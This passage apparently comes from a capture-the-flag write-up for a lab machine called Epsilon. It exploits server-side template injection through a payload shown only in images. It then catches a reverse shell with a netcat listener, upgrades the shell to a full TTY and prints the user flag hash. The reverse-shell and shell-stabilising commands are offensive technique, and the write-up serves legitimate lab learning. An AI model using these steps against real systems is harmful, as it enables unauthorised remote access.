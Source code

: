 With a SSTI we can do a lot of things but what we are looking for is command execution.

A place to find the payload we need for this manner is **PayloadsAllTheThings**:

{{< image src="/img/eps10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/eps11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We are going to try any of this payloads:

{{< image src="/img/eps13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}
{{< image src="/img/eps12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It works, now we can get a reverse shell:

{{< image src="/img/eps14.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We will represent the '**&**' in urlencode ('**%26**') for this to work:

```bash
❯ nc -lvnp 334

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.96.151.
Ncat: Connection from 10.129.96.151:35358.
bash: cannot set terminal process group (1058): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$
```

We have a shell but not a **tty** so we will do a **tty treatment**:
```bash
tom@epsilon:/var/www/app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
tom@epsilon:/var/www/app$ ^Z
zsh: suspended  nc -lvnp 334

❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 334
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

And finally the last touches:
```bash
tom@epsilon:/var/www/app$ export TERM=xterm
tom@epsilon:/var/www/app$ export SHELL=bash
tom@epsilon:/var/www/app$ stty rows 40 columns 140
```

This way we will have the correct screen size (you can find your own with ```stty size```) and we are also able to do ^L.

In our user's home directory we find the **user.txt**:
```bash
tom@epsilon:~$ ls
user.txt
tom@epsilon:~$ cat user.txt
a78de636a8ec1c5a51720d733ec29a3f
```
